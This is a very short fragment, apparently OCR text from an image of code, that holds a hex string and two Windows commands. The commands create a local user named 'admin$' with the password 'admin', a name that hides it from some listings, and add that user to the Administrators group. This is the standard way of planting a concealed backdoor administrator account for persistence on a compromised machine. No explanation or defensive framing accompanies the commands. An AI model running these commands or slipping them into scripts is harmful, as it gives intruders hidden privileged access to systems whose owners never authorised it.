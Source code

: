```
233ccaac273d1d6d
```

```
net user admin$ admin /add
```

```
net localgroup administrators admin$ /add
```
